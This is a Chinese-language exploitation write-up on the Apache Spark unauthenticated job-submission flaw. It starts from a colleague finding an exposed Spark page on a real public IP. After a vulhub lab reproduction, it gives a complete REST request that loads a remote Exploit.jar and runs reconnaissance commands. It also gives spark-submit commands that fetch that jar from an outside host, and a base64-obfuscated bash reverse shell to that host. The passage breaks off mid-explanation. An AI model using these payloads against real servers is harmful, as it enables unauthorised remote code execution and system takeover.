 同事扫到一个Apache Spark未授权页面，以此做为开始  

目标地址：  http://182.61.xxx.xxx:8080/  
网上搜索针对Apache Spark的漏洞复现，直接打失败，开始调试之旅  

本地搭建环境，使用此项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)，如下图所示，搭建成功  
![image](./pic/1.png)  
访问端口6066，能够成功访问，如下图  
![image](./pic/2.png)  
而目标不能访问，说明目标关闭了端口6066，漏洞复现中讲述还可以通过7077端口利用漏洞，且目标没关闭7077端口  
首先对本地测试针对6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
获得响应如下  
![image](./pic/3.png)  
然后访问
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
替换其中的driverId，成功获得执行结果，如下图  
![image](./pic/4.png)  
这里有一个细节需要注意："id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"，id_部分，我这里更改了Exploit.jar，由,分割变为_分割，用于后面反弹shell  

通过端口7077执行命令  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.144.55:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
还是上述查看方式，成功执行命令  

通过端口7077反弹shell  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.144.55:8000/Exploit.jar "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```
其中的
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
为
```

